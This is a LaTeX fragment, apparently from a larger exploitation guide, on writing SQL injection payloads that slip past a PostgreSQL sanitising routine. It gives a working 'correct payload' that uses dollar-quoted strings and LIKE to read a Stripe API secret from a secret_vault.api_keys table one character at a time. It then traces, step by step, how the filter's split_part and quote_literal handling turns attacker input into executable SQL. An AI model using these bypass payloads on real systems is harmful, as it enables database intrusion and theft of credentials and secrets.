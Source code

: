\documentclass[11pt]{article}
\begin{document}
\textbf{Rule 3: Scalar subqueries must return exactly one row.} Use
\lstinline|LIMIT 1 OFFSET n| when enumerating through sets that may contain
multiple rows (e.g., listing multiple schema or table names). Without
\lstinline|LIMIT 1|, a subquery returning multiple rows will cause a runtime error
and prevent extraction.

\paragraph{Correct payload:}:

\begin{lstlisting}
(SELECT substr(secret,1,1) FROM secret_vault.api_keys WHERE service LIKE $_$stripe$_$) = w
\end{lstlisting}

\paragraph{Broken payload (internal \texttt{=} confuses split\_part):}:

\begin{lstlisting}
(SELECT substr(secret,1,1) FROM secret_vault.api_keys WHERE service = $_$stripe$_$) = w
\end{lstlisting}

\subsection{Payload Processing Flow}

Given input: \lstinline|(SELECT count(*) FROM t WHERE col LIKE $_$x$_$) = 1|

\begin{enumerate}[leftmargin=1.8em]
  \item \lstinline|regexp_split_to_array(input, ' AND ')| $\rightarrow$ single
        element
  \item \lstinline|regexp_replace(part, '['';\-]', '', 'g')| $\rightarrow$ no
        stripping (\lstinline|'|, \lstinline|;|, \lstinline|-| absent)
  \item \lstinline|split_part(clean_part, '=', 1)| $\rightarrow$
        \lstinline|(SELECT count(*) FROM t WHERE col LIKE $_$x$_$) |
  \item \lstinline|trim(col_name)| $\rightarrow$
        \lstinline|(SELECT count(*) FROM t WHERE col LIKE $_$x$_$)|
  \item \lstinline|split_part(clean_part, '=', 2)| $\rightarrow$ \lstinline| 1|
  \item \lstinline|trim(val)| $\rightarrow$ \lstinline|1|;
        \lstinline|quote_literal('1')| $\rightarrow$ \lstinline|'1'|
  \item Final SQL:
        \lstinline|SELECT ... WHERE (SELECT count(*) FROM t WHERE col LIKE $_$x$_$) = '1'|
\end{enumerate}
\end{document}
